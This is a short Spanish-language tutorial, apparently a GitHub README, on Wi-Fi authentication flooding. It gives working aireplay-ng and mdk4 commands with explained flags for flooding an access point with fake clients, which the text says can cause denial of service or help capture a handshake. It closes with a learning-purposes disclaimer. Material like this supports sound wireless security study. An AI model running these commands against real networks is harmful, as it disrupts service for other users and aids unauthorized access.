 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=390&lines=Ataque+de+autenticaci%C3%B3n+Wi-Fi"></a>
</p>

<h1 align="center"></h1>

Un ataque de Autenticación es lo inverso al de un Desautenticación, aquí lo que se hace es envíar clientes falsos a la red; esto satura el ancho de banda y puede provocar lentitud e incluso DoS. Es útil si se quiere capturar el handshake pero no hay ningún cliente "real" conectado a la red, entonces se aprovecha este ataque.

<h1 align="center"></h1>

### AIRCRACK-NG

Este ataque es funcional si el punto de acceso tiene la seguridad WEP activada, de lo contrario, mostrará un mensaje de: `Denegado (código 12), ESSID o WPA incorrecto`.
```
aireplay-ng --fakeauth 5000 -a <AP-MAC> -h <MAC> <INTERFAZ>
```

**--fakeauth / -1:** Modo de ataque Autenticación.

**5000:** Segundos que transcurré para volver a autenticar.

**-a:** Dirección MAC del punto de acceso.

**-h:** Dirección MAC falsa a autenticar.

![2](https://user-images.githubusercontent.com/75953873/181665516-835bfdd9-d080-4091-92e1-86f72cb22987.png)

Al específicar el tiempo en `0` la autenticación del cliente falso será ilimitado.

</br>

<h1 align="center"></h1>

### MDK4

La herramienta MDK4 también contiene parámetros para dicho ataque:

**a:** Modo de ataque Autenticaicón.

**-a:** Dirección MAC del punto de acceso.

**-m:** Direcciones MAC's aleatorias.

```
mdk4 <INTERFAZ> a -a <AP-MAC> -m 
```
![1](https://user-images.githubusercontent.com/75953873/181666285-473396ff-e871-4196-9245-3b0956e5e229.png)

</br>

<h1 align="center"></h1>

<h3 align="center"><ins>ADVERTENCIA<ins></h3>

<h4 align="center">Esto es con fines de aprendizaje, no nos hacemos responsables ni el fundador, ni el creador del tema del mal uso de esta herramienta u información.</h4>



#### ~R3LI4NT~
